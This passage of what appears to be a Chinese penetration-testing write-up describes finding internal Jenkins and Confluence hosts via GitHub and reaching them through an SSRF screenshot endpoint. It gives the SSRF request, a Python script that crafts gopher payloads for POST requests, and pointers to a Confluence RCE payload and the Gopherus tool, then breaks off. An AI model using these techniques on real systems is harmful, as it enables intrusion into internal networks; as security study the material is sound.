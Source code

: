   
在GitHub搜索厂商域名关键字+jenkins、wiki、oa、git、svn等有可能出现在域名中的词，发现jenkins和confluence内网资产：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTia3MfOWYXa4Ae0kSHLVowGTSokSwyx42qfXqMnMKiaEayxIcvHksG9bwibmankJgvY1z14KicqKtS4g/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTia3MfOWYXa4Ae0kSHLVowGFXrKWp1d1mjoFhFfPb0TQbQOOzEukl6DBHxAmrgWn93lJqiarkBzZHQ/640?wx_fmt=png "")  
  
  
**0x8**  
  
  
以上域名公网无法访问，通过ssrf接口带入  
```
https://xxx.com/mall-tools/v1-0/tools/screenshot?url=url/&width=3272&height=1840&sleepMillis=10000
```  
  
  
查看截图后发现jenkins有登录口，无法直接未授权RCE，需要尝试其他历史漏洞，这时可以先试试近期公开的CVE-2021-26084，confluence未授权RCE，详情以及payload参考：  
```
https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
```  
  
  
**0x9**  
  
  
该漏洞的触发需要发送POST请求，以下列举ssrf漏洞发送POST请求的几种思路：  
  
  
- 符号列表利用gopher协议直接发送POST请求。用python脚本生成gopher数据流，参考：  
  
  
```
https://blog.csdn.net/weixin_45887311/article/details/107327706
```  
  
```
        import urllib.parse
        test =\
        """POST / HTTP/1.1
        Host: 127.0.0.1:8000
        """  
        #以上内容放置请求包内容，注意后面一定要有回车，回车结尾表示http请求结束
        tmp = urllib.parse.quote(test)
        new = tmp.replace('%0A','%0D%0A')
        result = '_'+new
        print(result)
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTia3MfOWYXa4Ae0kSHLVowGa13lNSUOtbe7xhnFOArvpzkghWVzib1AvN78OCCoeb37WoSLxWuJL3Q/640?wx_fmt=png "")  
  
  
除了发出HTTP请求外，gopher协议还常被用来攻击内网redis、Zabbix、FastCGI、mysql等服务，利用工具：  
```
https://github.com/tarunkant/Gopherus
```  
  
  
- ssrf不支持gopher协议时可考虑利用302跳转。条件：ssrf支持302跳转。参考：  
  
  